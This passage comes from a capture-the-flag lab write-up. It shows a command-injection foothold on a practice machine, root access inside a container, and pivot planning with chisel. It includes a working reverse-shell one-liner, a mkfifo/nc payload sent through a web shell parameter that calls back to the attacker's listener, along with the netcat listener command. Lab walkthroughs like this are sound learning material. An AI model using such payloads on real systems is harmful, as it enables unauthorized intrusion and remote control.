 We can start now a reverse shell:

```console
zero@pio$ netcat -lvnp 443
```

```console
zero@pio$ curl 'http://10.10.11.164/shell?cmd=rm%20/tmp/f;mkfifo%20/tmp/f;cat%20/tmp/f|/bin/sh%20-i%202>%261|nc%2010.10.16.44%20443%20>/tmp/f'
```

And now, we should have our reverse shell stablished. We can see that we are directly root:

```console
/app # whoami
	root
```

A bit strange, no? Testing the network, we can see that we are not in the main machine.

```console
/app # ifconfig
	eth0      Link encap:Ethernet  HWaddr 02:42:AC:11:00:06  
	          inet addr:172.17.0.6  Bcast:172.17.255.255  Mask:255.255.0.0
	          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
	          RX packets:861 errors:0 dropped:0 overruns:0 frame:0
	          TX packets:747 errors:0 dropped:0 overruns:0 carrier:0
	          collisions:0 txqueuelen:0 
	          RX bytes:83162 (81.2 KiB)  TX bytes:1068984 (1.0 MiB)
	
	lo        Link encap:Local Loopback  
	          inet addr:127.0.0.1  Mask:255.0.0.0
	          UP LOOPBACK RUNNING  MTU:65536  Metric:1
	          RX packets:0 errors:0 dropped:0 overruns:0 frame:0
	          TX packets:0 errors:0 dropped:0 overruns:0 carrier:0
	          collisions:0 txqueuelen:1000 
	          RX bytes:0 (0.0 B)  TX bytes:0 (0.0 B)
```

We must found a way to scape from this container to our machine. We can notice that from here we have access to the filtered port 3000.

```console
/app # nc -nv 10.10.11.164 3000
	10.10.11.164 (10.10.11.164:3000) open
```

We can try forward the port to our machine with chisel. Download the binary into the container. First use the upload function we have in the web to upload the binary. We can see that the path it is saved is `http://10.10.11.164/uploads/chisel` . If we try downloading from the container we will get an error:

```console
/root # wget http://10.10.11.164/uploads/chisel
	Connecting to 10.10.11.164 (10.10.11.164:80)
	wget: server returned error: HTTP/1.1 500 INTERNAL SERVER ERROR
```
